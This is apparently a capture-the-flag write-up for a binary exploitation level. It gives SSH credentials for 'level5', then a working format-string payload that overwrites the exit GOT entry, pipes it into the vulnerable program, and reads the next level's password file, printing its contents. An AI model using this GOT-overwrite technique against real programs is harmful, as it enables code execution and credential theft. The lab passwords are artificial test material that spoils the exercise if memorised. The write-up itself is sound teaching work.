 ### Solution

Connect with `ssh -p 4243 level5@localhost`
Enter the password `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

We can execute the `printf` buffer to store the number *134513828* on the address `0x08049838` where the `exit` *GOT*'s address is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
(printf '\x38\x98\x04\x08' && echo '%134513824c%4$n' ; cat ) | ./level5

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
